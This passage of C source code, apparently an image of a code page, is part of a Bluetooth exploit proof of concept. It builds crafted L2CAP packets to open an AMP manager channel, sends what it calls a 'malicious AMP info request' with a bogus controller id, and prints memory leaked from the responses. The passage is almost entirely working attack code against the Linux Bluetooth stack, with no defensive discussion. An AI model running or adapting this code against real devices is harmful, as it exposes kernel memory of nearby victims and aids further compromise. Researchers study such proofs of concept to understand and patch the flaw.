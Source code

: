 ```c
  }

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  printf("[*] Creating AMP channel...\n");
  struct {
    l2cap_hdr hdr;
  } packet1 = {0};
  packet1.hdr.len = htobs(sizeof(packet1) - L2CAP_HDR_SIZE);
  packet1.hdr.cid = htobs(AMP_MGR_CID);
  hci_send_acl_data(hci_socket, hci_handle, &packet1, sizeof(packet1));

  printf("[*] Configuring to L2CAP_MODE_BASIC...\n");
  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_conf_rsp conf_rsp;
    l2cap_conf_opt conf_opt;
    l2cap_conf_rfc conf_rfc;
  } packet2 = {0};
  packet2.hdr.len = htobs(sizeof(packet2) - L2CAP_HDR_SIZE);
  packet2.hdr.cid = htobs(1);
  packet2.cmd_hdr.code = L2CAP_CONF_RSP;
  packet2.cmd_hdr.ident = 0x41;
  packet2.cmd_hdr.len = htobs(sizeof(packet2) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
  packet2.conf_rsp.scid = htobs(AMP_MGR_CID);
  packet2.conf_rsp.flags = htobs(0);
  packet2.conf_rsp.result = htobs(L2CAP_CONF_UNACCEPT);
  packet2.conf_opt.type = L2CAP_CONF_RFC;
  packet2.conf_opt.len = sizeof(l2cap_conf_rfc);
  packet2.conf_rfc.mode = L2CAP_MODE_BASIC;
  hci_send_acl_data(hci_socket, hci_handle, &packet2, sizeof(packet2));

  printf("[*] Sending malicious AMP info request...\n");
  struct {
    l2cap_hdr hdr;
    amp_mgr_hdr amp_hdr;
    amp_info_req_parms info_req;
  } packet3 = {0};
  packet3.hdr.len = htobs(sizeof(packet3) - L2CAP_HDR_SIZE);
  packet3.hdr.cid = htobs(AMP_MGR_CID);
  packet3.amp_hdr.code = AMP_INFO_REQ;
  packet3.amp_hdr.ident = 0x41;
  packet3.amp_hdr.len = htobs(sizeof(amp_info_req_parms));
  packet3.info_req.id = 0x42; // use a dummy id to make hci_dev_get fail
  hci_send_acl_data(hci_socket, hci_handle, &packet3, sizeof(packet3));

  // Read responses
  for (int i = 0; i < 64; i++) {
    char buf[1024] = {0};
    size_t buf_size = read(hci_socket, buf, sizeof(buf));
    if (buf_size > 0 && buf[0] == HCI_ACLDATA_PKT) {
      l2cap_hdr *l2_hdr = (l2cap_hdr *)(buf + 5);
      if (btohs(l2_hdr->cid) == AMP_MGR_CID) {
        uint64_t leak1 = *(uint64_t *)(buf + 13) & ~0xffff;
        uint64_t leak2 = *(uint64_t *)(buf + 21);
        uint16_t leak3 = *(uint64_t *)(buf + 29);
        printf("[+] Leaked: %lx, %lx, %x\n", leak1, leak2, leak3);
        break;
      }
    }
  }
```